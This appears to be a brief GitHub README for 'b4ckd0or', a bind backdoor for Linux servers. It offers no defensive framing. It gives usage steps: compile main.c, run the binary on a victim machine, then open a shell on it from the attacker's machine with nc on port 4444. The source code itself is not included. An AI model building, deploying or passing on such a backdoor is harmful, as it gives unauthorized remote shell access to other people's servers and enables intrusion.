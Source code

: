 # b4ckd0or
Simple bind backdoor destined for linux servers
Use:

    root@samsepi0l:~# gcc main.c -o backdoor
    root@vitima:~# ./backdoor
    root@samsepi0l:~# nc -v 192.168.0.52 4444
    
